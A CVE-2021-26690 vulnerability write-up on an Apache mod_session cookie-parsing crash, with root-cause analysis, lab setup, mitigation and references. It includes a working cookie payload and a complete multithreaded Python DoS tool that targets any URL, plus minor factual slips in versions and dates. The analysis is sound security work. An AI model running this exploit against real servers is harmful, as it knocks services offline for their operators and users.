



# CVE-2021-26690

## Abstract
A concise summary of the vulnerability should be provided here. This section must include:
- **Affected Software:** Apache
- **Description:** Certain versions of Apache allow remote users to cause a denial-of-service (DoS) attack by crafting a cookie that exploits a NULL pointer dereference vulnerability.

## 1. Vulnerability Overview
- **CVE Identifier:** CVE-2021-26690
- **Affected Product:** Apache
- **Affected Versions:** 2.4.0 - 2.4.46 (inclusive)
- **Description:** Apache HTTP Server versions 2.4.0 to 2.4.46 A specially crafted Cookie header handled by mod_session can cause a NULL pointer dereference and crash, leading to a possible Denial Of Service
- **Disclosure Date:** June 1st, 2021
- **Severity Level:** HIGH
- **CVSSv3 Score:** 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H)
- **CVSSv3 Score:** 5.0 (AV:N/AC:L/Au:N/C:N/I:N/A:P)

## 2. Technical Details


### Vulnerable Code Identification
```C
char *plast = NULL;
const char *psep = "=";
char *key = apr_strtok(pair, psep, &plast);
char *val = apr_strtok(NULL, psep, &plast);
if (key && *key) {
    if (!val || !*val) {
        apr_table_unset(z->entries, key);
    }
```
- **File Path(s):** `/httpd/modules/session/mod_session.c`
- **Code Snippet Reference:** [Github](https://github.com/apache/httpd/blob/2.4.47/modules/session/mod_session.c#L388)
- **Analysis:** The vulnerability occurs in the logic that splits a cookie into key-value pairs using ```apr_strtok()``` with the "=" delimiter. When the cookie is malformed—for instance, if a value is missing after the "="—the function returns a NULL pointer for that value. Because the code does not properly handle this case, it later attempts to use the NULL pointer, resulting in a segmentation fault.


  Here’s an example of an exploit payload that triggers the vulnerability:
```session=expiry=AAAAAAAAAAA&=```

## 3. Exploiting CVE-2021-26690

### Environment
I created a Docker container with Apache version 2.4.18 installed on it to set up a test environment.

#### Dockerfile
```Dockerfile
FROM httpd:2.4.41
COPY conf/httpd.conf /usr/local/apache2/conf/httpd.conf
```

Next, I created an httpd.conf file to ensure that mod_session was enabled.
```bash
LoadModule unixd_module modules/mod_unixd.so
LoadModule authz_core_module modules/mod_authz_core.so
LoadModule mpm_prefork_module modules/mod_mpm_prefork.so
LoadModule dir_module modules/mod_dir.so
LoadModule log_config_module modules/mod_log_config.so

# Load necessary modules
LoadModule session_module modules/mod_session.so
LoadModule session_cookie_module modules/mod_session_cookie.so
LoadModule session_crypto_module modules/mod_session_crypto.so

ServerRoot "/usr/local/apache2"
Listen 8080

ServerName localhost
ServerAdmin webmaster@localhost

<IfModule mod_session.c>
Session On
SessionCookieName session path=/
SessionMaxAge 1800
</IfModule>

DocumentRoot "/usr/local/apache2/htdocs"
# Directory settings for the DocumentRoot
<Directory "/usr/local/apache2/htdocs">
AllowOverride All
Require all granted
</Directory>

# Logging
ErrorLog "logs/error_log"
LogFormat "%h %l %u %t \"%r\" %>s %b" common
CustomLog "logs/access_log" common
```

After that, I built the docker container

```
docker build -t apache2 .
docker run -d -p 8080:8080 --name apache2 apache2
```

Now that everything was up and running, I wanted to test everything on the client side.In my exploit, I added features to help with this.

### My Exploit Code
```python
#!/usr/bin/env python3
# Exploit code for CVE-2021-26690 - Apache mod_session NULL Pointer Dereference DoS
# Tested on Apache HTTP Server version 2.4.46.
#Usage:
#    python3 exploit.py <target_url> [-t THREAD_COUNT]
#
#Note: Press Ctrl+C to stop the attack.
import argparse, requests, threading, time, sys, re

def is_vulnerable_apache_version(version_str):
    """
    Check if the given Apache version string is vulnerable.
    Vulnerable versions: 2.4.0 to 2.4.46 (inclusive)
    
    Parameters:
        version_str (str): The version string (e.g., "2.4.46" or "Apache/2.4.46 (Unix)")
    
    Returns:
        bool: True if the version is vulnerable, False otherwise.
    """
    # Use regex to find a version pattern like "2.4.46"
    match = re.search(r'(\d+)\.(\d+)\.(\d+)', version_str)
    if not match:
        return False  # Unable to extract version numbers, assume not vulnerable
    
    major, minor, patch = map(int, match.groups())
    
    # Check if the version falls within 2.4.0 <= version <= 2.4.46
    if major == 2 and minor == 4 and 0 <= patch <= 46:
        return True
    else:
        return False

def check_apache_version(url, session):
    """
    Checks if the target URL is served by Apache and extracts its version if available.
    
    Parameters:
        url (str): The target URL.
        session (requests.Session): A persistent requests session.
    
    Returns:
        str: The Apache version if found, else None.
    """
    try:
        # Send a HEAD request to get response headers without downloading the entire content.
        response = session.head(url, timeout=5)
        server_header = response.headers.get("Server", "")
        print(f"[DEBUG] Server header: {server_header}")
        
        # Check if the 'Server' header indicates Apache
        if "Apache" in server_header:
            print("[INFO] Server is Apache.")
            
            # Use a regex to capture the version number from a typical Apache Server header.
            # Example header: "Apache/2.4.46 (Unix) OpenSSL/1.1.1c"
            version_match = re.search(r'Apache/([\d\.]+)', server_header)
            if version_match:
                version = version_match.group(1)
                print(f"[INFO] Apache version detected: {version}")
                return version
            else:
                print("[WARN] Apache server detected, but version could not be determined.")
                return None
        else:
            print("[INFO] Server is not Apache.")
            return None
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Error checking server: {e}")
        return None

def check_server(target_url, session):
    """
    Checks if a web server is running on the target URL by sending a HEAD request.
    Returns True if a valid server is found; otherwise, prints an error and returns False.
    """
    try:
        response = session.head(target_url, timeout=5)
        if response.status_code < 400:
            print(f"[INFO] Web server found at {target_url} (status code: {response.status_code})")
            return True
        else:
            print(f"[ERROR] Received status code {response.status_code} from {target_url}. Exiting.")
            return False
    except requests.exceptions.RequestException as e:
        print(f"[ERROR] Could not reach {target_url}: {e}")
        return False

def send_crafted_request(target_url, session):
    """
    Sends crafted requests in a loop to the target URL.
    The crafted cookie is designed to trigger the DoS vulnerability.
    """
    crafted_cookie = "session=expiry=AAAAAAAAAAA&="
    headers = {
        "Cookie": crafted_cookie
    }
    while True:
        try:
            response = session.get(target_url, headers=headers, timeout=5)
            if response.status_code == 200:
                print(f"[INFO] Server responded with {response.status_code}: service appears available.")
            else:
                print(f"[WARN] Unexpected response code: {response.status_code}")
        except requests.exceptions.ConnectionError:
            print("[ERROR] Connection error: likely DoS triggered (empty reply from server).")
        except requests.exceptions.Timeout:
            print("[ERROR] Request timed out: potential DoS condition.")
        except Exception as e:
            print(f"[ERROR] Exception occurred: {e}")
        time.sleep(0.1)

def exploit(target_url, thread_count):
    """
    Launches multiple threads to continuously send crafted requests to the target.
    """
    session = requests.Session()
    
    # Check if the target URL is running a web server
    if not check_server(target_url, session):
        print("[ERROR] No web server detected at the target URL. Exiting.")
        sys.exit(1)
    
    threads = []
    print(f"[INFO] Launching DoS attack on {target_url} with {thread_count} threads.")
    
    for _ in range(thread_count):
        thread = threading.Thread(target=send_crafted_request, args=(target_url, session))
        thread.daemon = True  # Threads exit when the main thread exits
        thread.start()
        threads.append(thread)
    
    # Keep the main thread alive until the user interrupts with Ctrl+C
    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("\n[INFO] Exploit interrupted by user. Exiting...")
        sys.exit(0)

if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description="Exploit for CVE-2021-26690 - Apache mod_session DoS vulnerability"
    )
    parser.add_argument("target_url", help="Target URL to test (e.g., http://example.com)")
    parser.add_argument("-t", "--threads", type=int, default=10,
                        help="Number of concurrent threads (default: 10)")
    args = parser.parse_args()

    session = requests.Session()
    version = check_apache_version(args.target_url, session)

    # Check if the Apache version is vulnerable
    if not is_vulnerable_apache_version(version):
        print("[ERROR] Apache version is not vulnerable to CVE-2021-26690. Exiting.")
        sys.exit(1)
    
    print(f"[INFO] Target URL: {args.target_url} is vulnerable! Launching exploit...")
    exploit(args.target_url, args.threads)
```
### Summary of Exploit
While testing, I wanted to also ensure I had the right version, so I built a scanner that will determine the following:
 1. The Web Server is Apache
 2. The version is vulnerable. 
 
 After it determines this, it creates multiple threads, with the crafted payload ```session=expiry=AAAAAAAAAAA&=```. We send this as a cookie to trigger the NULL pointer dereference vulnerability. 

### Result
Client-side we see the following:
```python
$ ~ python3 .\my_exploit.py http://127.0.0.1:8080
[DEBUG] Server header: Apache/2.4.41 (Unix)
[INFO] Server is Apache.
[INFO] Apache version detected: 2.4.41
[INFO] Target URL: http://127.0.0.1:8080 is vulnerable! Launching exploit...
[INFO] Web server found at http://127.0.0.1:8080 (status code: 200)
[INFO] Launching DoS attack on http://127.0.0.1:8080 with 10 threads.
[ERROR] Connection error: likely DoS triggered (empty reply from server).
[ERROR] Connection error: likely DoS triggered (empty reply from server).
[ERROR] Connection error: likely DoS triggered (empty reply from server).
[ERROR] Connection error: likely DoS triggered (empty reply from server).
```

Server-side, we can check the ```error_log``` and see the following:
```
# cat logs/error_log
[Tue Feb 25 23:46:51.553166 2025] [unixd:alert] [pid 13] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:35.310111 2025] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.41 (Unix) configured -- resuming normal operations
[Wed Feb 26 15:58:35.311030 2025] [unixd:alert] [pid 11] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:35.311308 2025] [core:notice] [pid 1] AH00094: Command line: 'httpd -D FOREGROUND'
[Wed Feb 26 15:58:35.311031 2025] [unixd:alert] [pid 8] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:35.311035 2025] [unixd:alert] [pid 9] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:35.311053 2025] [unixd:alert] [pid 10] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:35.311059 2025] [unixd:alert] [pid 12] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 15:58:40.317476 2025] [unixd:alert] [pid 13] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:52.414365 2025] [unixd:alert] [pid 30] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:53.404810 2025] [unixd:alert] [pid 31] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:53.405616 2025] [unixd:alert] [pid 32] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:54.408093 2025] [unixd:alert] [pid 33] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:54.408719 2025] [unixd:alert] [pid 34] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:54.409000 2025] [unixd:alert] [pid 35] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 21:59:54.409147 2025] [unixd:alert] [pid 36] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:15:52.460723 2025] [unixd:alert] [pid 46] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:16:46.523468 2025] [unixd:alert] [pid 47] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:16:52.531160 2025] [unixd:alert] [pid 48] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:16:53.530326 2025] [unixd:alert] [pid 49] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:16:53.530394 2025] [unixd:alert] [pid 50] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:20:45.782848 2025] [unixd:alert] [pid 51] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:22:57.917541 2025] [unixd:alert] [pid 52] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Wed Feb 26 22:24:05.988063 2025] [unixd:alert] [pid 53] AH02155: getpwuid: couldn't determine user name from uid 4294967295, you probably need to modify the User directive
[Thu Feb 27 02:16:15.583159 2025] [core:notice] [pid 1] AH00052: child pid 9 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583493 2025] [core:notice] [pid 1] AH00052: child pid 10 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583503 2025] [core:notice] [pid 1] AH00052: child pid 11 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583535 2025] [core:notice] [pid 1] AH00052: child pid 12 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583643 2025] [core:notice] [pid 1] AH00052: child pid 31 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583653 2025] [core:notice] [pid 1] AH00052: child pid 33 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583757 2025] [core:notice] [pid 1] AH00052: child pid 47 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583766 2025] [core:notice] [pid 1] AH00052: child pid 49 exit signal Segmentation fault (11)
[Thu Feb 27 02:16:15.583772 2025] [core:notice] [pid 1] AH00052: child pid 52 exit signal Segmentation fault (11)
```

### Root Cause Analysis
- **Description:** The primary issue is the lack of input validation in the cookie parsing routine. The code assumes that every key will be paired with a valid value. When the value is missing (or the input is not properly formatted), the use of ```apr_strtok()``` returns NULL, and subsequent operations on this NULL pointer cause a crash.


- **Impact of Exploitation:** When the server processes such a cookie, the absence of proper validation leads to a NULL pointer dereference, causing the Apache process handling the request to crash. Repeated exploitation can lead to a denial of service (DoS), affecting availability of the web service.


## 3. Impact Analysis
- **Security Impact:** The vulnerability allows an attacker to remotely crash the Apache HTTP Server by exploiting the cookie parsing logic, leading to a denial of service. Though it doesn't allow for arbitrary code execution or unauthorized data access, it does impact **availability**. And even though this flaw does not enable arbitrary code execution or unauthorized data access, it severely impacts service availability.

Here are the CVSS 3.1 vectors for this vulnerability.

  - **Attack Vector (AV:N):** The attack can be executed over the network.
  - **Attack Complexity (AC:L):** The exploit requires minimal effort.
  - **Privileges Required (PR:N):** No special privileges are needed.
  - **User Interaction (UI:N):** The attack does not depend on any user interaction.
  - **Scope (S:U):** The vulnerability is contained within the affected module.
  - **Confidentiality (C:N) & Integrity (I:N):** There is no impact on data confidentiality or integrity.
  - **Availability (A:H):** The primary effect is on availability, making the service inaccessible.

- **Affected Components:** The affected component is the ```mod_session``` module of the Apache HTTP Server.

- **Risk Assessment:** In terms of Confidentiality, Integrity, and Availability (CIA), if availability is one of the most critical components of your organization, it's recommended you increase the severity of this vulnerability.

## 4. **Current Impact (as of February 27th, 2025)**

According to Shodan, there are approximately **20.2M devices** with the string "Apache" online ([Shodan Search](https://www.shodan.io/search?query=Apache)).


Now shodan might just be catching devices that have the string "Apache" on them. There's a filter on Shodan that allows us to search specific vendors, products, and  versions. 

Approximately **14M devices** are identified with the product "Apache".


The affected versions (2.4.0 - 2.4.46) show that around **3M devices** online are still vulnerable.


This indicates that currently **21.23%** of Apache servers online are susceptible to CVE-2021-26690.

## 5. Remediation and Mitigation
```C
char *plast = NULL;
const char *psep = "=";
char *key = apr_strtok(pair, psep, &plast);

if (key && *key) {
    char *val = apr_strtok(NULL, sep, &plast);
    if (!val || !*val) {
        apr_table_unset(z->entries, key);
    }
```
### **The Patch:** Update to the latest version of [Apache](https://httpd.apache.org/download.cgi).
### **Immediate Mitigation Measures:**
  - ### **Short-Term Actions:** 
    One mitigation is to turn on `mod_session_crypto` for the cookie. The cookie will be both encrypted and base64 encoded.
    ```apache
    <IfModule mod_session.c>
    Session On
    SessionCookieName session path=/
    SessionCryptoPassphrase "VeRySeCuRePaSsWoRd!"
    SessionMaxAge 1000
    </IfModule>
    ```
    With this configuration, the session cookie pairs cannot be tampered with, which prevents the DoS attack from occurring as described.

    I enabled this option on my docker instance, and when launching the same exploit, I got the following:
    ```python
    $ ~ python3 .\my_exploit.py http://127.0.0.1:8080
    [DEBUG] Server header: Apache/2.4.41 (Unix)
    [INFO] Server is Apache.
    [INFO] Apache version detected: 2.4.41
    [INFO] Target URL: http://127.0.0.1:8080 is vulnerable! Launching exploit...
    [INFO] Web server found at http://127.0.0.1:8080 (status code: 200)
    [INFO] Launching DoS attack on http://127.0.0.1:8080 with 10 threads.
    [INFO] Server responded with 200: service appears available.
    [INFO] Server responded with 200: service appears available.
    [INFO] Server responded with 200: service appears available.
    [INFO] Server responded with 200: service appears available.
    [INFO] Server responded with 200: service appears available.
    --snip--
    ```
    It continues as the vulnerability was not exploited. This is because the vulnerable function is no longer executed. I setup gdb on the server, set a breakpoint on ```session_identity_decode```, executed the exploit, and it never hit.
    ```bash
    root@a95e3aba564e:/usr/local/apache2# ps aux | grep httpd
    root         1  0.0  0.0   8848  5860 ?        Ss   03:14   0:00 httpd -DFOREGROUND
    root         8  0.0  0.0   8956  3280 ?        S    03:14   0:00 httpd -DFOREGROUND
    root         9  0.0  0.0   8956  3280 ?        S    03:14   0:00 httpd -DFOREGROUND
    root        10  0.0  0.0   8956  3280 ?        S    03:14   0:00 httpd -DFOREGROUND
    root        11  0.0  0.0   8956  3280 ?        S    03:14   0:00 httpd -DFOREGROUND
    root        12  0.0  0.0   8956  3280 ?        S    03:14   0:00 httpd -DFOREGROUND
    root        35  0.0  0.0   3084   828 pts/1    S+   03:15   0:00 grep httpd
    root@a95e3aba564e:/usr/local/apache2# gdb -p 8
    GNU gdb (Debian 8.2.1-2+b3) 8.2.1
    Copyright (C) 2018 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word".
    Attaching to process 8
    Reading symbols from /usr/local/apache2/bin/httpd...done.
    Reading symbols from /lib/x86_64-linux-gnu/libpcre.so.3...(no debugging symbols found)...done.
    Reading symbols from /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0...(no debugging symbols found)...done.
    Reading symbols from /usr/lib/x86_64-linux-gnu/libapr-1.so.0...(no debugging symbols found)...done.
    Reading symbols from /lib/x86_64-linux-gnu/libpthread.so.0...Reading symbols from /usr/lib/debug/.build-id/48/041452aef93ddb2366ca0fa49da8f32684a9c8.debug...done.
    done.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug/.build-id/3d/d0d437484db11c9d9f4e53cc880f264ebaf1da.debug...done.
    done.
    Reading symbols from /lib/x86_64-linux-gnu/libuuid.so.1...(no debugging symbols found)...done.
    Reading symbols from /lib/x86_64-linux-gnu/librt.so.1...Reading symbols from /usr/lib/debug/.build-id/c8/899aec85ac923281dfa7ad96e261b772c0be85.debug...done.
    done.
    Reading symbols from /lib/x86_64-linux-gnu/libcrypt.so.1...Reading symbols from /usr/lib/debug/.build-id/ab/1fafcec71661f0b251193cc9886c2acf2b59be.debug...done.
    done.
    Reading symbols from /lib/x86_64-linux-gnu/libdl.so.2...Reading symbols from /usr/lib/debug/.build-id/e0/a26233adbeaa08de07d76dbaacd9c3ff5b18f9.debug...done.
    done.
    Reading symbols from /lib/x86_64-linux-gnu/libexpat.so.1...(no debugging symbols found)...done.
    Reading symbols from /lib64/ld-linux-x86-64.so.2...Reading symbols from /usr/lib/debug/.build-id/83/743ddd4258a7d138a28c4f2032d17ad92a15b5.debug...done.
    done.
    Reading symbols from /usr/local/apache2/modules/mod_unixd.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_authz_core.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_mpm_prefork.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_dir.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_log_config.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_session.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_session_cookie.so...done.
    Reading symbols from /usr/local/apache2/modules/mod_session_crypto.so...done.
    Reading symbols from /usr/lib/x86_64-linux-gnu/apr-util-1/apr_crypto_openssl-1.so...(no debugging symbols found)...done.
    Reading symbols from /usr/lib/x86_64-linux-gnu/libssl.so.1.1...(no debugging symbols found)...done.
    Reading symbols from /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1...(no debugging symbols found)...done.
    Reading symbols from /lib/x86_64-linux-gnu/libnss_files.so.2...Reading symbols from /usr/lib/debug/.build-id/d7/cfd27ca5fda4bde8f71998d7384810ae8406af.debug...done.
    done.
    0x00007fea4b7a5947 in accept4 (fd=3, addr=..., addr_len=0x7ffc152f7f20, flags=524288)
        at ../sysdeps/unix/sysv/linux/accept4.c:32
    32      ../sysdeps/unix/sysv/linux/accept4.c: No such file or directory.
    (gdb) break session_identity_decode
    Breakpoint 1 at 0x7fea4b5b2490: file mod_session.c, line 389.
    (gdb) c
    Continuing.
    ```


### **Long-Term Remediation:**
  - **Patch/Update Recommendations:** Updating to the latest version of apache, or at the very least a version that is > 2.4.46 .
  - **Code Changes Overview:** The patch refactors the function so that it only attempts to extract the value after confirming that a valid key was obtained. In the vulnerable code, the value is extracted immediately without first checking if the key is valid; if the key extraction fails or returns an empty string, the subsequent extraction might operate on invalid data, leading to a NULL pointer being processed. By moving the value extraction inside the ```if (key && *key)``` block, the patched code ensures that only well-formed key-value pairs are processed, preventing the potential for a null pointer dereference.

  - **Additional Recommendations:** Regular security audits, thorough code reviews, and adherence to secure coding best practices can help identify and remediate potential vulnerabilities early. Additionally, incorporating automated static analysis and runtime monitoring further minimizes the risk of similar issues in the future.

## 6. Timeline and Acknowledgments
- **Discovery and Reporting:**
  - **Date of Discovery:** February 8th, 2021
  - **Date Reported:** June 1st, 2021
  - **Date of Patch Release:** June 1st, 2021
- **Additional Timeline Information:**
  - According to Apache, Antonio Morales, @antonio-morales from the GitHub Security Lab (GHSL) team reported the vulnerability on February 8th, 2024, yet the issue and patch were not released until June 1st, 2021.
  - GitHub Security Lab also credits Josh Soref as the discoverer of the vulnerability.
- **Further Investigation – Other Vulnerabilities Fixed in the Same Patch:**
  1. **2019-10-05 (Moderate):** `mod_proxy_wstunnel` tunneling of non-upgraded connections (CVE-2019-17567)
  2. **2020-09-11 (Low):** `mod_proxy_http` NULL pointer dereference (CVE-2020-13950)
  3. **2020-11-11 (Low):** `mod_auth_digest` possible stack overflow by one null byte (CVE-2020-35452)
  4. **2021-01-26 (Moderate):** Improper handling of insufficient privileges (CVE-2020-13938)
  5. **2021-03-01 (Low):** `mod_session` response handling heap overflow (CVE-2021-26691)
  6. **2021-04-14 (Moderate):** Unexpected URL matching with 'MergeSlashes OFF' (CVE-2021-30641)
  7. **2021-04-22 (Important):** NULL pointer dereference on specially crafted HTTP/2 request (CVE-2021-31618)
- **Comparison:**
  - Both CVE-2021-26690 and CVE-2021-31618 have a CVSS score of 7.5.
  - It might be the case Apache marked CVE-2021-31618 as "important" due to the higher likelihood of exploitation, triggering a need for a patch, since CVE-2021-26690 was addressed as part of the broader 2.4.48 update.
- **Credits:**
Thank you, Antonio Morales (@antonio-morales), for reporting this vulnerability. Special thanks to Apache, Openwall, Debian, Fedora, Gentoo, NetApp, and Oracle for creating advisories for this vulnerability.

## 7. References
- **Source Code Repository:** [Apache Github Commits](https://github.com/apache/httpd/commits/2.4.47/modules/session/mod_session.c)
- **Related Advisories:** 
   - http://httpd.apache.org/security/vulnerabilities_24.html 
   - http://www.openwall.com/lists/oss-security/2021/06/10/6
   - https://lists.apache.org/thread.html/r7f2b70b621651548f4b6f027552f1dd91705d7111bb5d15cda0a68dd%40%3Cdev.httpd.apache.org%3E	
   - https://lists.apache.org/thread.html/rae406c1d19c0dfd3103c96923dadac2af1cd0bad6905ab1ede153865%40%3Cannounce.httpd.apache.org%3E	
   - https://lists.apache.org/thread.html/re026d3da9d7824bd93b9f871c0fdda978d960c7e62d8c43cba8d0bf3%40%3Ccvs.httpd.apache.org%3E
   - https://lists.debian.org/debian-lts-announce/2021/07/msg00006.html
   - https://lists.fedoraproject.org/archives/list/package-announce%40lists.fedoraproject.org/message/SPBR6WUYBJNACHKE65SPL7TJOHX7RHWD/	
   - https://lists.fedoraproject.org/archives/list/package-announce%40lists.fedoraproject.org/message/ZNCYSR3BXT36FFF4XTCPL3HDQK4VP45R/	
   - https://security.gentoo.org/glsa/202107-38
   - https://security.netapp.com/advisory/ntap-20210702-0001/
   - https://www.debian.org/security/2021/dsa-4937
   - https://www.oracle.com/security-alerts/cpuoct2021.html
- **External Resources:** 
  - [NVD's Report](https://nvd.nist.gov/vuln/detail/cve-2021-26690)
  - [CWE-476: NULL Pointer Dereference Definition](https://cwe.mitre.org/data/definitions/476.html)
